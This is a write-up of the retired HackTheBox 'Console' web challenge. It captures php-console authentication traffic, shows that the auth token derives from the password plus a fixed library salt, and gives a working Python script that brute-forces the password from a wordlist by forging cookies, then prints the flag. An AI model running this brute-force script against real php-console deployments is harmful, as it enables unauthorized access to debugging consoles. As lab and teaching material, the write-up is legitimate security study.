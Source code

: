 ```yaml
---
Category: Web
Difficulty: Medium
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags: brute-force, code-review, python-coding, reversing
---
```

>[!summary]
>*Could you please check the console of your Chrome?*


# Set up

- 

# Information Gathering

Opening the challenge a default PHP page is showed:

![console-1.png](../../zzz_res/attachments/console-1.png)

The sentence below is non standard in PHP:

> Make sure to load php-console in order to be prompted for a password


- php-console (PHP Console server library): [https://github.com/barbushin/php-console](https://github.com/barbushin/php-console)
- php-console-extension: [https://github.com/barbushin/php-console-extension](https://github.com/barbushin/php-console-extension)

Download and import the extension within chromium:

![console-2.png](../../zzz_res/attachments/console-2.png)

Visit the challenge page and test the extension:

![console-3.png](../../zzz_res/attachments/console-3.png)

![console-4.png](../../zzz_res/attachments/console-4.png)

HTTP Request (pw: `test`):

```
GET / HTTP/1.1
Host: 138.68.155.238:30717
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: <http://138.68.155.238:30717/>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: php-console-server=5; php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjUsImF1dGgiOnsicHVibGljS2V5IjoiMDIzNzRhMTIyMzg3YjNmMDZjYTgzNWZiNDA3ZWQxYzc3ZDY3YThlZjMwY2E5ZWFmZjBmMTNkOTE4NDgzYzkwOCIsInRva2VuIjoiOWRlNDQxMjNkYzk5MGJmYTIwZjllNjM5N2YzN2M5ZmFiYjlkNTIwMTk3YjFjNDAzMDkzNTYxYjVmYjE1ZDRlMCJ9fQ==
```

```json
php-console-client = {"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"9de44123dc990bfa20f9e6397f37c9fabb9d520197b1c403093561b5fb15d4e0"}}
```

HTTP Response:

```
HTTP/1.1 200 OK
Date: Fri, 10 Sep 2021 09:38:50 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
PHP-Console-Postpone: {"protocol":5,"isPostponed":true,"id":"543866480751852544435350167"}
PHP-Console: {"protocol":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","isSuccess":false},"docRoot":null,"sourcesBasePath":null,"getBackData":null,"isLocal":null,"isSslOnlyMode":false,"isEvalEnabled":null,"messages":[]}
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 10712
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

HTTP request (pw: `test2`):

```
GET / HTTP/1.1
Host: 138.68.155.238:30717
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: <http://138.68.155.238:30717/>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: php-console-server=5; php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjUsImF1dGgiOnsicHVibGljS2V5IjoiMDIzNzRhMTIyMzg3YjNmMDZjYTgzNWZiNDA3ZWQxYzc3ZDY3YThlZjMwY2E5ZWFmZjBmMTNkOTE4NDgzYzkwOCIsInRva2VuIjoiZDEzYmM2NzQ5ODNmZjMwMTdiZDYwODIzMTEzMGVlNjliNDY2NGNhNmI3ODM4N2M5YjQ2ZGE2MWI4ZTI2MzMyOSJ9fQ==

```

```json
php-console-client = {"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"d13bc674983ff3017bd608231130ee69b4664ca6b78387c9b46da61b8e263329"}}
```

HTTP response:

```
HTTP/1.1 200 OK
Date: Fri, 10 Sep 2021 09:41:40 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
PHP-Console-Postpone: {"protocol":5,"isPostponed":true,"id":"15213328251665622270599337835"}
PHP-Console: {"protocol":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","isSuccess":false},"docRoot":null,"sourcesBasePath":null,"getBackData":null,"isLocal":null,"isSslOnlyMode":false,"isEvalEnabled":null,"messages":[]}
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 10712
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

# The bug

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/web/Console]
└─$ cat cookie1
{"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"9de44123dc990bfa20f9e6397f37c9fabb9d520197b1c403093561b5fb15d4e0"}}

┌──(kali㉿kali)-[~/…/HTB/challenge/web/Console]
└─$ cat cookie2
{"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"d13bc674983ff3017bd608231130ee69b4664ca6b78387c9b46da61b8e263329"}}

┌──(kali㉿kali)-[~/…/HTB/challenge/web/Console]
└─$ cat cookie1-same
{"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"9de44123dc990bfa20f9e6397f37c9fabb9d520197b1c403093561b5fb15d4e0"}}

```

`publicKey` is static: `02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908php-console-client` only differs in token (which is related to the password):

Based on these info we can brute-force the password by re-implementing the logic for the token generation. Because we have access to the [client source-code](https://github.com/barbushin/php-console-extension/blob/master/js/auth.js) and [server source-code](https://github.com/barbushin/php-console/blob/master/src/PhpConsole/Auth.php), we can use it to develop our custom script.

## Exploitation

```json
{
"php-console-client" : 5,
"auth":
	{
	"publicKey" : SHA256($_SERVER['REMOTE_ADDR'] + SHA256(psw + 'NeverChangeIt:)'),
	"token": SHA256(SHA256(psw + 'NeverChangeIt:)') + SHA256($_SERVER['REMOTE_ADDR'] + SHA256(psw + 'NeverChangeIt:)'))
	}
}

```

Exploit:

```python
#/usr/bin/env python
from hashlib import sha256
from sys import argv
import base64
import requests
import json

publicKey = "02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908"
PASSWORD_HASH_SALT = 'NeverChangeIt:)'
url = argv[1]

print(f"Brute-forcing php-client password for {url}")
print(f"publicKey: {publicKey}")

file = open(argv[2],"r")
for line in file:
	psw = line.strip()
	print(f"Testing: {psw}")
	psw_hash = sha256(psw.strip().encode() + PASSWORD_HASH_SALT.strip().encode())
	print(f"Hash: {psw_hash.hexdigest()}")

	# "token": SHA256(SHA256(psw + 'NeverChangeIt:)') + SHA256($_SERVER['REMOTE_ADDR'] + SHA256(psw + 'NeverChangeIt:)'))
	token = sha256(sha256(psw.strip().encode() + PASSWORD_HASH_SALT.strip().encode()).hexdigest().encode() + publicKey.strip().encode())
	print(f"Token: {token.hexdigest()}")

	php_console_client = '{"php-console-client":5,"auth":{"publicKey":"'+publicKey+'","token":"'+token.hexdigest()+'"}}'
	b64_php_console_client = base64.b64encode(php_console_client.encode('ascii'))
	#print(b64_php_console_client.decode())

	cookies_dict = {"php-console-server":"5", "php-console-client":b64_php_console_client.decode()}
	#print(cookies_dict)

	resp = requests.get(url, cookies=cookies_dict)
	php_console = resp.headers["PHP-Console"]
	php_console_json = json.loads(php_console)

	if php_console_json["auth"]["isSuccess"]:
		print(f"Passowrd found! {psw}")
		print(f"Flag is: {php_console_json['messages']['data']}")
		break

```

![console-5.png](../../zzz_res/attachments/console-5.png)

![console-6.png](../../zzz_res/attachments/console-6.png)

## Flag

>[!success]
>`HTB{PhP!Cons0lE@ByTh3K+FoUnd+}`

